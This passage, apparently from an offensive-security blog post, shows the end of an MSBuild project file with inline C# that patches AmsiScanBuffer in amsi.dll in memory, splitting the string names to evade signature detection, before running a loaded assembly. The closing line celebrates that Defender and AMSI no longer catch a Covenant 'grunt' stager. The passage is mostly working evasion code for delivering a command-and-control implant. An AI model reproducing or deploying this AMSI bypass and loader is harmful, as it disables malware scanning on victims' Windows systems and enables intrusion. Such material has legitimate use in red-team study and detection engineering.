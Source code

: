 ```xml
	            {{ASSEMBLY_BUFFER}}.EntryPoint.Invoke(0, o);
                return true;
            }
            
			public static void Bypass()
			{
                byte[] x64 = new byte[] { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };
			    byte[] x86 = new byte[] { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC2, 0x18, 0x00 };
				if (is64Bit())
					{{PATCH_AMSI}}(x64);
				else
					{{PATCH_AMSI}}(x86);
			}
			private static void {{PATCH_AMSI}}(byte[] patch)
			{
				try
				{
					var {{AMSI_DLL_0}} = ""ams"";
					var {{AMSI_DLL_1}} = ""i.dll"";
					var {{LIB}} = LoadLibrary({{AMSI_DLL_0}} + {{AMSI_DLL_1}});
					var {{AMSI_SCAN_BUFF_0}} = ""Ams"";
					var {{AMSI_SCAN_BUFF_1}} = ""iSca"";
					var {{AMSI_SCAN_BUFF_2}} = ""nBuffer"";
					var addr = GetProcAddress({{LIB}}, {{AMSI_SCAN_BUFF_0}} + {{AMSI_SCAN_BUFF_1}} + {{AMSI_SCAN_BUFF_2}});
					uint oldProtect;
					VirtualProtect(addr, (UIntPtr)patch.Length, 0x40, out oldProtect);
					Marshal.Copy(patch, 0, addr, patch.Length);
				}
				catch (Exception e)
				{
					Console.WriteLine("" [x] {0}"", e.Message);
					Console.WriteLine("" [x] {0}"", e.InnerException);
				}
			}
			private static bool is64Bit()
			{
				bool is64Bit = true;
				if (IntPtr.Size == 4)
					is64Bit = false;
				return is64Bit;
			}
        }
        ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>"
```

Now, DefenderCheck reports a clean binary, and AMSI isn't catching the decompressed grunt stager assembly as it's about to be loaded. Success!